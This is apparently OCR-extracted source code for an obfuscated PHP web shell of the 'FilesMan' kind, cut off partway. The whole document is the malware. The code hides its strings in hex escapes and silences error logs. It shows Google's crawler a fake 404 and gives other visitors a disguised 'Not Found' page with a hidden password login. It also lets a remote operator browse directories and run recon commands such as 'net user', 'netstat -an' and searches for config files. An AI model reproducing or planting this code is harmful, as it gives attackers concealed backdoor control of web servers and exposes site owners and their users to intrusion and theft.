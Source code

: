 ["\x6c\x68xm\x73\x72\x71\x69"]="use\x72";${"G\x4c\x4f\x42\x41L\x53"}["\x65\x71\x63w\x77\x6do\x6c"]="\x72e\x6c\x65\x61s\x65";${"\x47\x4cO\x42AL\x53"}["\x66\x69\x72i\x76\x70\x6f\x63"]="mi\x6c\x6c\x69\x6e\x6b";${"\x47\x4c\x4fB\x41\x4c\x53"}["z\x78\x68te\x65s\x65"]="\x6be\x72\x6eel";${"GLOBA\x4cS"}["s\x64\x69\x6b\x64\x67\x6f"]="\x74\x6f\x74\x61l\x53\x70\x61c\x65";${"\x47\x4c\x4fBA\x4cS"}["\x66\x68\x71\x67i\x63"]="a\x6c\x69\x61s\x65\x73";${"\x47\x4c\x4f\x42\x41\x4cS"}["\x77\x77rt\x76\x67\x6er\x66\x63t"]="\x68\x6fm\x65\x5f\x63\x77d";${"\x47\x4c\x4f\x42\x41\x4cS"}["\x77c\x77\x73\x62u\x66\x79cp"]="\x6f\x73";${"\x47L\x4f\x42\x41\x4cS"}["q\x6f\x79x\x74\x6ctt"]="\x63\x77d";${"\x47LO\x42\x41L\x53"}["cg\x73\x64\x75\x6fn\x71w\x6bi"]="\x61\x72ray";${"\x47L\x4fB\x41\x4cS"}["z\x66l\x6d\x75\x73\x71if"]="\x64e\x66\x61\x75\x6c\x74\x5f\x61cti\x6fn";$dcssiqxpfihh="\x73a\x66e_\x6d\x6fde";${"G\x4c\x4f\x42\x41\x4cS"}["b\x63\x62g\x6ckq\x66q\x63\x78"]="\x63\x6f\x6c\x6fr";${"\x47\x4c\x4f\x42\x41LS"}["m\x71\x68\x6c\x69\x71\x70\x75"]="\x61\x75\x74\x68\x5f\x70\x61\x73\x73";${${"\x47\x4cO\x42\x41\x4c\x53"}["\x6d\x71\x68\x6c\x69\x71p\x75"]}="db288\x63\x3131c8\x3183\x37\x36\x32\x65\x37\x63\x33ad\x303\x62\x632\x66\x64\x66b";${${"\x47L\x4fB\x41\x4c\x53"}["\x62cb\x67l\x6b\x71\x66q\x63\x78"]}="\x23\x300f\x66\x300";${${"G\x4c\x4f\x42\x41\x4c\x53"}["\x7af\x6c\x6d\x75\x73\x71i\x66"]}="\x46i\x6c\x65\x73M\x61n";@define("SEL\x46\x5fP\x41\x54H",__FILE__);if(strpos($_SERVER["HT\x54\x50\x5fU\x53\x45R\x5f\x41\x47E\x4eT"],"\x47o\x6f\x67\x6ce")!==false){header("\x48\x54\x54\x50/1\x2e\x30\x2040\x34\x20Not\x20\x46o\x75\x6e\x64");exit;}$otdabkxpwyi="\x6fs";$ptldyjgs="\x6fs";@session_start();$hhttdaanft="\x63\x77d";@error_reporting(0);@ini_set("e\x72ror_log",NULL);${"G\x4c\x4f\x42\x41\x4c\x53"}["\x64\x6b\x63\x62\x76\x62\x67my\x63\x70"]="\x68o\x6d\x65\x5f\x63\x77d";@ini_set("l\x6f\x67\x5f\x65r\x72\x6f\x72s",0);@ini_set("\x6dax_exe\x63u\x74ion_ti\x6d\x65",0);@set_time_limit(0);@define("\x56ER\x53\x49\x4f\x4e","2.1");if(get_magic_quotes_gpc()){function stripslashes_array($array){${"GL\x4f\x42\x41\x4c\x53"}["\x71o\x6e\x6e\x7a\x63n"]="\x61\x72r\x61\x79";return is_array(${${"\x47\x4c\x4f\x42\x41\x4cS"}["\x71\x6f\x6e\x6e\x7ac\x6e"]})?array_map("\x73tr\x69p\x73l\x61\x73\x68e\x73_\x61\x72\x72ay",${${"\x47\x4cO\x42A\x4c\x53"}["\x63\x67\x73du\x6fnq\x77\x6b\x69"]}):stripslashes(${${"\x47\x4cOB\x41\x4c\x53"}["c\x67\x73\x64\x75\x6fnq\x77\x6b\x69"]});}$_POST=stripslashes_array($_POST);}function printLogin(){echo " \n<h\x31\x3e\x4eot\x20Fo\x75n\x64</h\x31\x3e \n<p\x3e\x54\x68e\x20r\x65qu\x65\x73t\x65\x64\x20\x55R\x4c \x77a\x73 n\x6ft \x66\x6fun\x64 \x6fn t\x68\x69\x73 se\x72ve\x72.\x3c/\x70> \n\x3c\x68\x72> \n\x3caddr\x65\x73\x73>Ap\x61c\x68\x65 Se\x72v\x65r\x20\x61\x74\x20";echo $_SERVER["\x48\x54T\x50\x5f\x48O\x53T"];echo " Port \x38\x30\x3c/\x61ddre\x73\x73>\x20\n\x20\x20\x20 \x3c\x73ty\x6ce\x3e \n\x20\x20\x20\x20\x20 \x20 \x69n\x70\x75t\x20{\x20\x6da\x72\x67in:\x30;b\x61ckg\x72\x6fund-\x63\x6flo\x72:#f\x66f\x3b\x62o\x72\x64er:\x31\x70x sol\x69d\x20\x23\x66f\x66; } \n\x20 \x20 \x3c/\x73\x74y\x6c\x65>\x20\n\x20 \x20\x20<ce\x6e\x74\x65r\x3e \n   \x20\x3c\x66\x6f\x72\x6d\x20me\x74\x68od\x3dpost\x3e\x20\n\x20 \x20 \x3c\x69np\x75t\x20ty\x70\x65\x3dp\x61s\x73word\x20\x6ea\x6d\x65=\x70\x61s\x73\x3e \n \x20  </f\x6fr\x6d>\x3c/c\x65\x6e\x74er\x3e \n\x20   ";exit;}if(!isset($_SESSION[md5($_SERVER["HTT\x50\x5fHO\x53\x54"])])){$dzpempej="\x61u\x74\x68\x5f\x70ass";$dxoibxlodr="\x61u\x74h_\x70a\x73\x73";if(empty(${$dzpempej})||(isset($_POST["pa\x73\x73"])&&(md5($_POST["\x70a\x73s"])==${$dxoibxlodr})))$_SESSION[md5($_SERVER["\x48\x54T\x50\x5fHOS\x54"])]=true;else printLogin();}if(strtolower(substr(PHP_OS,0,3))=="\x77i\x6e")${$otdabkxpwyi}="win";else${$ptldyjgs}="ni\x78";${$dcssiqxpfihh}=@ini_get("\x73\x61\x66e\x5f\x6dode");$pvwvcutvr="\x64\x69\x73\x61\x62l\x65\x5f\x66\x75\x6e\x63\x74i\x6f\x6e\x73";${"G\x4c\x4f\x42\x41LS"}["\x6d\x77\x6d\x74\x77\x63\x70yux\x64"]="\x63w\x64";${$pvwvcutvr}=@ini_get("\x64\x69s\x61ble\x5ff\x75\x6e\x63tion\x73");${${"G\x4c\x4fB\x41L\x53"}["d\x6b\x63\x62v\x62\x67\x6dy\x63\x70"]}=@getcwd();if(isset($_POST["\x63"]))@chdir($_POST["\x63"]);${${"G\x4cO\x42AL\x53"}["\x71\x6fyx\x74\x6c\x74t"]}=@getcwd();if(${${"\x47\x4c\x4f\x42AL\x53"}["\x77\x63\x77s\x62\x75\x66y\x63\x70"]}=="w\x69n"){$iokddezyskk="\x63\x77\x64";${"\x47\x4cOB\x41\x4c\x53"}["\x72\x69\x6aj\x62\x71\x6d\x6du"]="\x68\x6fme\x5fc\x77\x64";${${"\x47\x4c\x4f\x42\x41\x4cS"}["r\x69\x6a\x6a\x62\x71\x6d\x6du"]}=str_replace("\x5c","/",${${"\x47L\x4fBALS"}["wwr\x74\x76gn\x72\x66\x63\x74"]});${$iokddezyskk}=str_replace("\\","/",${${"G\x4cO\x42\x41\x4c\x53"}["\x71\x6f\x79\x78\x74\x6c\x74\x74"]});}if(${$hhttdaanft}[strlen(${${"G\x4cO\x42\x41\x4c\x53"}["\x6d\x77mt\x77c\x70\x79\x75\x78\x64"]})-1]!="/")${${"G\x4c\x4f\x42\x41L\x53"}["q\x6f\x79x\x74l\x74\x74"]}.="/";if(${${"\x47\x4cO\x42\x41\x4cS"}["\x77\x63ws\x62u\x66y\x63p"]}=="\x77i\x6e")${${"\x47\x4cOBA\x4c\x53"}["f\x68\x71\x67\x69c"]}=array("Li\x73\x74 Directo\x72\x79"=>"\x64\x69r","\x46\x69\x6e\x64\x20\x69\x6e\x64ex\x2e\x70hp in\x20\x63\x75rren\x74\x20\x64\x69\x72"=>"\x64ir\x20/\x73\x20/\x77\x20/b\x20\x69\x6ede\x78.\x70h\x70","F\x69nd\x20*\x63o\x6e\x66ig*.\x70\x68p in \x63\x75\x72r\x65nt\x20d\x69\x72"=>"di\x72 /s\x20/w /b\x20*\x63\x6fnf\x69\x67*.php","\x53h\x6fw\x20\x61\x63t\x69ve\x20\x63on\x6e\x65\x63\x74\x69\x6fn\x73"=>"\x6ee\x74stat -\x61\x6e","\x53how \x72u\x6en\x69n\x67 ser\x76\x69c\x65\x73"=>"\x6e\x65\x74\x20s\x74ar\x74","\x55s\x65\x72 \x61c\x63\x6f\x75n\x74s"=>"ne\x74 \x75\x73er","S\x68o\x77 \x63o\x6dputer\x73"=>"ne\x74 \x76i\x65\x77","AR\x50 Ta\x62l\x65"=>"\x61\x72p -\x61","I\x50 \x43on\x66i\x67\x75r\x61\x74\x69\x6f\x6e"=>"\x69\x70con\x66ig /al\x6c");else${${"\x47\x4c\x4f\x42\x41\x4c\x53"}["f\x68\x71\x67\x69c"]}=array("\x4ci\x73\x74\x20d\x69\x72"=>"\x6cs\x20-\x6ca","\x6ci\x73t\x20file att\x72ib\x75t\x65\x73